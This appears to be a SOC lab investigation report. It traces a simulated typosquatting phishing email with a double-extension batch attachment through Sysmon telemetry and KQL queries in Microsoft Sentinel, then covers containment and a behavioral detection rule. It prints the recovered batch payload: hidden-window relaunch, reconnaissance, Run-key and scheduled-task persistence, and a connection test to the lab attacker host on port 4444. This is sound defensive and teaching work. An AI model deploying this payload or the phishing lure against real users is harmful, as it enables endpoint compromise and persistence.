








# Investigation 002

# Typosquatted Phishing Endpoint Compromise

| **Field**        | **Value**                      |
| ---------------- | ------------------------------ |
| Investigation ID | 002                            |
| Phase            | Phase 01 – Endpoint Security   |
| Category         | Phishing & Endpoint Compromise |
| Platform         | Microsoft Sentinel             |
| Status           | Completed                      |

---

# Incident Overview

On **8 August 2026**, an employee named **Victor** reported receiving an email that appeared to originate from the organization's payroll department.

The message was sent from:

```text
payroll@skynett.com
```

while the legitimate organizational domain was:

```text
skynet.com
```

The one-character difference represented a **typosquatting** attempt.

The email used the subject:

```text
Salary Revision & Increment Letter - FY2026
```

The attachment was named:

```text
Salary_Revision_2026.xls.bat
```

In Thunderbird, the complete filename, including the `.bat` extension, was visible in the attachment area.



Victor did not notice the `.bat` extension clearly. When he attempted to preview the attachment, the preview did not load.

However, because the email appeared to contain a **salary revision and increment letter**, Victor did not think twice about proceeding with the attachment. He downloaded and opened the file.

When the attachment was saved through Windows File Explorer, the filename appeared as:

```text
Salary_Revision_2026.xls
```

without the `.bat` portion being visibly presented in that particular save interface.



After the file was opened, a command prompt window briefly appeared and closed.

Victor subsequently reported the suspicious activity, and the event was escalated to the SOC for investigation.

---

# Objective

The objective of this investigation was to investigate Victor's reported suspicious email and endpoint activity, establish what actually occurred on the affected system through available telemetry and endpoint evidence, determine whether the reported activity resulted in an endpoint compromise, and document the resulting attack chain, findings, containment actions, and detection opportunities.

The investigation also aimed to validate the findings using multiple sources of evidence and convert the observed attack behavior into a Microsoft Sentinel detection for future monitoring.

---

# Lab Environment

| **Component**       | **Details**                 |
| ------------------- | --------------------------- |
| Attacker            | Kali Linux – BUGGY-ATK01    |
| Victim              | Windows 11 – ZORO-WS01      |
| Victim User         | Victor                      |
| SIEM                | Microsoft Sentinel          |
| Endpoint Telemetry  | Sysmon                      |
| Email Client        | Mozilla Thunderbird         |
| Mail Infrastructure | Postfix + Dovecot + dnsmasq |
| Internal Network    | VirtualBox NAT Network      |
| Attacker IP         | 10.0.10.4                   |

The investigation was performed within a controlled SOC laboratory environment.

---

# Email Infrastructure & Phishing Simulation

## 5.1 Purpose

A complete internal email environment was constructed on **BUGGY-ATK01** to reproduce the phishing scenario within the SOC laboratory.

The environment consisted of:

```text
                         BUGGY-ATK01
                         Kali Linux
                              │
          ┌───────────────────┼───────────────────┐
          │                   │                   │
       Postfix              Dovecot            dnsmasq
        SMTP                 IMAP             Internal DNS
          │                   │                   │
          └───────────────────┼───────────────────┘
                              │
                              ▼
                       ZORO-WS01
                       Windows 11
                              │
                         Thunderbird
                              │
                           Victor
```

The goal was to create an end-to-end mail workflow where the attacker could send a message, the victim could receive it through a normal desktop mail client, and the SOC could investigate the resulting endpoint activity.

---

## 5.2 Postfix

**Postfix** was deployed on BUGGY-ATK01 to provide SMTP functionality for the laboratory mail environment.

It handled the transmission and delivery of messages between the simulated domains:

```text
skynett.com
```

and:

```text
skynet.com
```

The mail environment was tested until messages could successfully move through the complete SMTP workflow and arrive in the victim mailbox.

---

## 5.3 Dovecot

**Dovecot** provided IMAP access to the mailboxes.

This allowed Thunderbird on ZORO-WS01 to retrieve messages from the mail server.

The resulting workflow was:

```text
Postfix
   ↓
Mailbox
   ↓
Dovecot / IMAP
   ↓
Thunderbird
   ↓
Victor
```

This allowed the phishing scenario to be experienced from the same type of graphical mail-client workflow normally used by an end user.

---

## 5.4 dnsmasq

**dnsmasq** provided DNS functionality for the laboratory mail environment.

It resolved the internal mail hosts while also forwarding external DNS requests when required.

The simulated mail domains included:

```text
skynet.com
skynett.com
```

with the mail infrastructure resolving internally to:

```text
mail.skynett.com → 10.0.10.4
mail.skynet.com  → 10.0.10.4
```

The environment also included MX, SPF, DKIM and DMARC records for the simulated domains.

---

## 5.5 Email Authentication Records

SPF, DKIM and DMARC records were configured for the simulated domains.

These were included to make the laboratory mail environment behave as realistically as possible and to provide practical experience with the relationship between:

```text
DNS
 ↓
Mail routing
 ↓
Email authentication
 ↓
Mail delivery
```

The objective was to build the environment as close to a genuine organizational mail workflow as reasonably possible so that the laboratory provided practical experience rather than a simplified demonstration.

---

## 5.6 TLS and Certificate Configuration

TLS certificates were configured for the mail services as part of the effort to make the laboratory environment behave as realistically as possible.

Because the mail environment was internally controlled, self-signed certificates were used for the laboratory mail services.

---

## 5.7 Thunderbird and SMTP Validation

Mozilla Thunderbird was used as the end-user mail client on ZORO-WS01.

The mailboxes were tested using the same graphical workflow an employee would normally use.

**Swaks** was used during the earlier infrastructure-building stage to interact with the SMTP service and observe how the SMTP protocol operates, including the initial `EHLO` exchange and message handoff.

The final phishing scenario was performed through Thunderbird to reproduce a normal GUI-based employee mail workflow.

---

# Initial Investigation

The SOC analyst began by reviewing Sysmon process creation events from the affected endpoint to identify suspicious activity around the reported time.

The following KQL query was used:

```kql
Event
| where Source == "Microsoft-Windows-Sysmon"
| where EventID == 1
| where TimeGenerated > ago(12h)
| extend IST = datetime_utc_to_local(TimeGenerated, "Asia/Kolkata")
| project IST, Computer, EventData
| order by IST desc
```



After reviewing the results, the analyst observed a cluster of suspicious process executions, including:

* `ipconfig.exe`
* `systeminfo.exe`
* `netstat.exe`
* `tasklist.exe`
* `reg.exe`
* `schtasks.exe`
* `powershell.exe`

These processes appeared within a short period and warranted further investigation.

---

# Artifact Pivot & Suspicious Process Execution

While examining the Event ID 1 events, the analyst identified a parent command line referencing:

```text
Salary_Revision_2026.xls.bat
```

This shifted the investigation toward the identified file as the primary artifact.

The following query was used to search for events associated with the filename:

```kql
Event
| where TimeGenerated > ago(24h)
| where EventData contains "Salary_Revision_2026.xls.bat"
| extend IST = datetime_utc_to_local(TimeGenerated, "Asia/Kolkata")
| serialize
| extend S_NO = row_number()
| project S_NO, IST, Source, EventID, RenderedDescription, EventData
| order by IST asc
```

The search returned multiple Sysmon events, including:

* **Event ID 11** – File Creation
* **Event ID 15** – File Stream Creation
* **Event ID 1** – Process Creation

Examining the EventData from the process-creation events revealed the parent command line:

```xml
<Data Name="ParentCommandLine">cmd /c "C:\Users\Victor\Desktop\Salary_Revision_2026.xls.bat" min</Data>
```

This confirmed that the suspicious activity originated from the batch file located on Victor's Desktop.

---

# File Creation Analysis

The analyst reviewed the Event ID 11 results associated with the identified filename.

The events showed file creation activity involving:

```text
Salary_Revision_2026.xls.bat
```

and its associated `Zone.Identifier` file stream.

The `Zone.Identifier` entry was particularly useful because Windows can attach this alternate data stream to files obtained from external sources.

Its presence provided a reason to examine the corresponding **Event ID 15** records for additional information

---

# File Stream Analysis

The analyst then reviewed the Event ID 15 events associated with the identified artifact.

The following query was used:

```kql
Event
| where TimeGenerated > ago(24h)
| where EventData contains "Salary_Revision_2026.xls.bat"
| where EventID == 15
| extend IST = datetime_utc_to_local(TimeGenerated, "Asia/Kolkata")
| project IST, Source, EventID, RenderedDescription, EventData
| order by IST asc
```

One of the events contained information associated with the file's `Zone.Identifier` alternate data stream.

The relevant information was:

```text
[ZoneTransfer]
ZoneId=3
HostUrl=about:internet
```



The `ZoneId=3` value indicates that Windows classified the file as originating from the Internet.

This supports **Victor's version of the story** that the suspicious file had been downloaded.

---

# Payload Recovery

The Event ID 15 data also exposed the contents of the recovered batch file.



The following batch script was recovered from Sysmon telemetry:

```bat
@echo off
if not "%1"=="min" start /min cmd /c %0 min & exit
mkdir "%TEMP%\SystemCache" 2>nul
systeminfo > "%TEMP%\SystemCache\sysinfo.txt"
ipconfig /all > "%TEMP%\SystemCache\network_config.txt"
netstat -ano > "%TEMP%\SystemCache\netstat_connections.txt"
tasklist /v > "%TEMP%\SystemCache\process_list.txt"
schtasks /create /tn "WindowsSystemBackup" /tr "cmd /c systeminfo >> \"%TEMP%\SystemCache\daily_backup.txt\"" /sc daily /st 03:00 /f
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "SystemHelper" /t REG_SZ /d "cmd /c systeminfo >> \"%TEMP%\SystemCache\logon_info.txt\"" /f
powershell -c "Test-NetConnection 10.0.10.4 -Port 4444"
exit
```

> **Lab Context:** The recovered batch script was generated and executed within the controlled SOC laboratory environment. It performed system reconnaissance, attempted scheduled-task persistence, created Registry Run-key persistence, and executed a network connectivity test. The artifact was used strictly for educational attack simulation and subsequent SOC investigation.

---

# Discovery Analysis

The payload performed several discovery actions before attempting persistence.

The commands recovered from the payload included:

```text
systeminfo
ipconfig /all
netstat -ano
tasklist /v
```

These commands collected information about:

* Operating system and system configuration
* Network interfaces and configuration
* Existing network connections
* Running processes

The activity demonstrated that the payload was not limited to simply executing the attached file. It attempted to gather information about the endpoint and its surrounding environment.

---

# Persistence Analysis

The recovered payload contained two persistence mechanisms.

## Registry Run Key

The payload attempted to create a Registry Run key under:

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

The value created was:

```text
SystemHelper
```

This mechanism was successful under the Victor user context.

This represents:

**T1547.001 – Registry Run Keys / Startup Folder**

## Scheduled Task

The payload also attempted to create:

```text
WindowsSystemBackup
```

through `schtasks`.

However, this particular execution occurred under the **Victor standard-user account**.

The scheduled-task creation attempt failed because Victor did not have the required privileges.

The task was later checked during endpoint validation and cleanup. The verification did not show a task created by the final phishing execution, supporting the conclusion that this persistence attempt had failed.

---

# Endpoint Validation

The analyst subsequently validated the artifacts directly on ZORO-WS01.

The payload-created directory was:

```text
C:\Users\Victor\AppData\Local\Temp\SystemCache
```

The directory contained:

```text
logon_info.txt
netstat_connections.txt
network_config.txt
process_list.txt
sysinfo.txt
```



The presence of these files correlated with the discovery commands recovered from the payload.

This provided independent endpoint validation that the discovery activity described by the recovered script had produced the expected artifacts.

The scheduled task was also checked using:

```powershell
schtasks /query /tn "WindowsSystemBackup"
```

The final phishing execution had been performed under Victor's standard-user context, and the scheduled-task creation attempt had failed.

---

# Network Activity Analysis

Based on the recovered payload, the analyst searched for activity associated with the attacker system.

The following query was used:

```kql
Event
| where TimeGenerated > ago(24h)
| where EventData contains "10.0.10.4"
| extend IST = datetime_utc_to_local(TimeGenerated, "Asia/Kolkata")
| project IST, Source, EventID, RenderedDescription, EventData
| order by IST asc
```

The investigation identified the PowerShell command:

```text
powershell -c "Test-NetConnection 10.0.10.4 -Port 4444"
```

The command was executed from the recovered batch file.

However, no corresponding Sysmon **Event ID 3** was observed to independently confirm a network connection.

Therefore, the evidence supports an **attempted network connectivity test**, but does not confirm successful C2 communication or data transfer.

This distinction was preserved throughout the investigation.

---

# Attack Reconstruction

After completing the investigation, the analyst correlated the collected evidence with the controlled attack simulation performed within the SOC lab.

The reconstructed attack chain was:

```text
Victor receives phishing email
        ↓
payroll@skynett.com
        ↓
Downloads Salary_Revision_2026.xls.bat
        ↓
Opens the file
        ↓
cmd.exe
        ↓
Salary_Revision_2026.xls.bat
        │
        ├── systeminfo.exe
        │       └── sysinfo.txt
        │
        ├── ipconfig.exe
        │       └── network_config.txt
        │
        ├── netstat.exe
        │       └── netstat_connections.txt
        │
        ├── tasklist.exe
        │       └── process_list.txt
        │
        ├── schtasks.exe
        │       └── Scheduled Task creation
        │           └── Failed under Victor
        │
        ├── reg.exe
        │       └── SystemHelper Run Key
        │           └── Successful
        │
        └── powershell.exe
                └── Test-NetConnection
                    10.0.10.4:4444
```

---

# Attack Timeline

The investigation established the following sequence around the execution of the phishing payload:

| **Time (IST)** | **Activity**                                                                   |
| -------------- | ------------------------------------------------------------------------------ |
| 22:51:58       | `Zone.Identifier` information associated with the downloaded artifact observed |
| 22:52:09       | Batch payload execution begins                                                 |
| 22:52:10       | Discovery commands begin executing                                             |
| 22:52:14       | Additional discovery and persistence-related commands execute                  |
| 22:52:20       | Registry persistence and subsequent commands execute                           |
| 22:52:30       | Network connectivity test activity observed                                    |

The timeline presents the narrative sequence of the attack, while the detection output reflects the underlying telemetry event volume.

---

# Containment Actions

Following confirmation of the malicious activity, the identified persistence and test artifacts were removed from the endpoint.

The Registry Run-key entry was removed using:

```powershell
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SystemHelper" /f
```

The scheduled task artifact was removed using:

```powershell
schtasks /delete /tn "WindowsSystemBackup" /f
```

The temporary payload directory was removed using:

```powershell
Remove-Item "$env:TEMP\SystemCache" -Recurse -Force
```

The endpoint was subsequently checked to confirm that the identified artifacts had been removed.

The identified attacker IP address, **10.0.10.4**, was also identified for network-level blocking.

In a production environment, the source would be blocked at the organization's perimeter or relevant network security control.

---

# Detection Engineering

After completing the investigation and containment, the observed attack methodology was converted into a **Microsoft Sentinel Scheduled Analytics Rule**.

Rather than detecting only the specific indicators from this incident, such as `10.0.10.4`, the detection was designed around the **behavioral sequence** observed during the compromise.

The detection looks for:

```text
Internet-originated file
        ↓
Batch execution through cmd.exe
        ↓
Registry Run-key persistence
        ↓
Shell-associated network activity
```

This allows the rule to remain useful even if an attacker changes the destination IP address, port, or individual discovery commands.

## Detection Query

The final query used for the analytics rule was:

```kql
Event
| where EventData contains "ZoneId=3"
   or (Source == "Microsoft-Windows-Sysmon" and EventID == 1 and EventData contains "cmd.exe" and EventData contains ".bat")
   or (Source == "Microsoft-Windows-Sysmon" and EventID == 13 and EventData contains "CurrentVersion\\Run")
   or (Source == "Microsoft-Windows-Sysmon" and EventID == 3 and (EventData contains "cmd.exe" or EventData contains "powershell.exe"))
| extend
    Download = iff(EventData contains "ZoneId=3", 1, 0),
    Execution = iff(Source == "Microsoft-Windows-Sysmon" and EventID == 1 and EventData contains "cmd.exe" and EventData contains ".bat", 1, 0),
    Persistence = iff(Source == "Microsoft-Windows-Sysmon" and EventID == 13 and EventData contains "CurrentVersion\\Run", 1, 0),
    Callback = iff(Source == "Microsoft-Windows-Sysmon" and EventID == 3 and (EventData contains "cmd.exe" or EventData contains "powershell.exe"), 1, 0)
| summarize
    DownloadEvents = sum(Download),
    ExecutionEvents = sum(Execution),
    PersistenceEvents = sum(Persistence),
    CallbackEvents = sum(Callback),
    FirstDownload = minif(TimeGenerated, Download == 1),
    FirstExecution = minif(TimeGenerated, Execution == 1),
    FirstPersistence = minif(TimeGenerated, Persistence == 1),
    FirstCallback = minif(TimeGenerated, Callback == 1)
    by Computer, bin(TimeGenerated, 5m)
| where DownloadEvents > 0 and ExecutionEvents > 0 and PersistenceEvents > 0
| where FirstDownload < FirstExecution and FirstExecution < FirstPersistence
| extend Confidence = case(
    CallbackEvents > 0 and FirstPersistence < FirstCallback, "High - Full Chain Confirmed",
    CallbackEvents > 0, "Medium - Callback Observed, Sequence Unconfirmed",
    "Medium - No Shell-Initiated Callback Telemetry Observed"
)
| extend
    Download_IST = datetime_utc_to_local(FirstDownload, "Asia/Kolkata"),
    Execution_IST = datetime_utc_to_local(FirstExecution, "Asia/Kolkata"),
    Persistence_IST = datetime_utc_to_local(FirstPersistence, "Asia/Kolkata"),
    Callback_IST = iff(CallbackEvents > 0, datetime_utc_to_local(FirstCallback, "Asia/Kolkata"), datetime(null))
| project Computer, Confidence, DownloadEvents, ExecutionEvents, PersistenceEvents, CallbackEvents, Download_IST, Execution_IST, Persistence_IST, Callback_IST
| order by Download_IST asc
```
The query was then executed in Microsoft Sentinel to validate that the behavioral conditions produced the expected correlated result.

## Detection Result

The resulting output showed the correlated activity from ZORO-WS01, including the confidence classification, event counts and timestamps for the first observed download, execution, persistence and callback activity.



## Detection Logic

The query assigns an indicator to each relevant event:

```text
Download
Execution
Persistence
Callback
```

Each indicator receives either `1` or `0` depending on whether the event matches its condition.

The events are then grouped by:

```text
by Computer, bin(TimeGenerated, 5m)
```

This correlates activity occurring on the **same endpoint within the same five-minute time window**.

The query counts each type of activity and records the earliest occurrence using:

```text
FirstDownload
FirstExecution
FirstPersistence
FirstCallback
```

The rule then requires all three primary stages:

```text
DownloadEvents > 0
ExecutionEvents > 0
PersistenceEvents > 0
```

and verifies their sequence:

```text
FirstDownload < FirstExecution < FirstPersistence
```

Therefore, simply having all three types of events somewhere on the endpoint is insufficient. They must occur in the expected order within the correlation window.

Network activity is treated as an **additional confidence signal**, rather than a mandatory requirement.

This is particularly important in this investigation because the `Test-NetConnection` command was observed through process telemetry, but a corresponding Sysmon Event ID 3 was not available.

## Confidence Classification

The detection produces three possible confidence levels:

| **Confidence**                                              | **Meaning**                                                                                                                      |
| ----------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------- |
| **High - Full Chain Confirmed**                             | Download, execution and persistence occurred in sequence, followed by shell-associated network telemetry.                        |
| **Medium - Callback Observed, Sequence Unconfirmed**        | Shell-associated network activity was observed, but its position in the sequence could not be confirmed.                         |
| **Medium - No Shell-Initiated Callback Telemetry Observed** | Download, execution and persistence occurred in sequence, but corresponding shell-associated network telemetry was not observed. |

The third condition accurately represents what occurred during this investigation.

It does **not** mean that network activity definitely did not occur. It means only that the expected Event ID 3 telemetry was not available to confirm it.

## Behavioral Detection Approach

The detection deliberately does **not** search specifically for:

```text
10.0.10.4
```

because an attacker can easily change destination infrastructure.

Instead, the network component searches for Sysmon Event ID 3 associated with:

```text
cmd.exe
powershell.exe
```

This makes the detection behavioral rather than dependent on a single known IOC.

The rule also does **not** treat every Sysmon Event ID 3 as suspicious.

Normal endpoints continuously generate network connections from browsers, mail clients, Windows services, security software and other applications. Treating every connection as a callback would generate excessive noise.

Restricting this component to shell-associated network activity makes the signal more meaningful.

A limitation still exists: an attacker could initiate network communication through another process rather than `cmd.exe` or `powershell.exe`.

This represents a **detection gap** and provides an area for future investigations involving LOLBins and more advanced process-lineage detection.

---

# Scheduled Analytics Rule Deployment

The detection logic was converted into a Microsoft Sentinel **Scheduled Analytics Rule** named:

```text
Suspicious File Execution and Persistence Activity
```

The rule was configured as a **High severity** custom analytics rule and successfully enabled in the Sentinel workspace.

The analytics rule uses the detection query to identify the required behavioral sequence and create an incident when the configured conditions are satisfied.



---

# MITRE ATT&CK Mapping

| **Technique ID** | **Technique**                                            | **Evidence**                                            |
| ---------------- | -------------------------------------------------------- | ------------------------------------------------------- |
| **T1566.001**    | Phishing: Spearphishing Attachment                       | Malicious batch file delivered through phishing email   |
| **T1204.002**    | User Execution: Malicious File                           | Victor downloaded and opened the malicious attachment   |
| **T1059.003**    | Command and Scripting Interpreter: Windows Command Shell | Payload executed through `cmd.exe`                      |
| **T1059.001**    | Command and Scripting Interpreter: PowerShell            | PowerShell used to execute `Test-NetConnection`         |
| **T1082**        | System Information Discovery                             | `systeminfo.exe`                                        |
| **T1016**        | System Network Configuration Discovery                   | `ipconfig /all`                                         |
| **T1049**        | System Network Connections Discovery                     | `netstat -ano`                                          |
| **T1057**        | Process Discovery                                        | `tasklist /v`                                           |
| **T1547.001**    | Registry Run Keys / Startup Folder                       | `SystemHelper` Run key                                  |
| **T1053.005**    | Scheduled Task/Job: Scheduled Task                       | `WindowsSystemBackup` creation was attempted but failed |

---

# Findings

The investigation confirmed that:

* A phishing email was delivered from the typosquatting domain **`skynett.com`**.
* Victor downloaded and executed **`Salary_Revision_2026.xls.bat`**.
* Sysmon Event ID 1 provided process execution evidence connecting the suspicious activity to the batch file.
* Sysmon Event ID 15 revealed `Zone.Identifier` information containing **`ZoneId=3`**, supporting Victor's account that the file had been downloaded.
* The batch file performed system, network configuration, network connection and process discovery.
* Reconnaissance output was written under `%TEMP%\SystemCache`.
* A Registry Run key named **`SystemHelper`** was successfully created for persistence.
* The scheduled-task persistence attempt failed under the Victor standard-user context.
* The payload executed `Test-NetConnection` against **10.0.10.4:4444**.
* No corresponding Sysmon Event ID 3 was identified, so confirmed C2 communication was not established.
* Endpoint validation confirmed the artifacts created by the payload.
* The identified persistence and artifacts were removed during containment.
* A behavioral Microsoft Sentinel detection was developed to identify similar **download → execution → persistence → network activity** patterns without depending on the specific attacker IP address.

---

# Detection Gap & Recommendations

The investigation also identified several areas where detection coverage can be improved.

## 1. Process-Lineage Coverage

The current detection identifies shell-associated network activity from:

```text
cmd.exe
powershell.exe
```

A sufficiently careful attacker could potentially initiate network communication through another process.

Future detection engineering should therefore expand toward process lineage and LOLBin-based behavioral detection.

## 2. Detection Noise

The detection can generate multiple execution events from the same payload because several individual actions may occur through the same command-shell execution chain.

This provides an opportunity for future tuning to improve alert fidelity while maintaining behavioral coverage.

## 3. File Hash and Artifact Enrichment

Hash-based enrichment was intentionally not added to this investigation.

Future investigations will incorporate file hashes and additional artifact enrichment where appropriate.

## 4. Automated Response

No automated response or containment playbook was attached to this rule.

The current investigation focuses on **detection, correlation and analyst investigation**.

Automated response through Microsoft Sentinel playbooks will be introduced in a later phase once detection logic has been validated and the required response actions can be safely automated.

---

# Key Investigation Takeaways

* **Typosquatting remains a practical phishing technique**, particularly when employees are not actively checking the sender domain.
* **User execution was a critical stage of the compromise.** The malicious attachment required Victor to open the file before the endpoint payload executed.
* A suspicious process should be investigated through its **parent process and parent command line** to identify what initiated the activity.
* A specific artifact can provide a strong pivot point for correlating otherwise unrelated-looking events.
* **Zone.Identifier** information can provide useful evidence about how a file entered an endpoint.
* Endpoint validation can increase confidence in findings obtained from SIEM telemetry.
* Attempted network activity should not automatically be reported as confirmed communication. The available evidence must support the conclusion.
* Effective investigations rely on correlating multiple independent sources of evidence rather than drawing conclusions from a single event.
* Detection engineering should follow incident investigation so that lessons from the incident can be converted into improved future visibility.
* Detection logic should focus on **behavior and attack methodology rather than individual indicators** wherever practical. IP addresses and other IOCs can change, while behavioral relationships can remain detectable.
* **Understanding user behavior is also important.** Victor's excitement about the salary revision and increment reduced his attention to the failed preview and attachment filename. The incident demonstrates that technical controls alone cannot eliminate phishing risk without effective user awareness.

---

# Conclusion

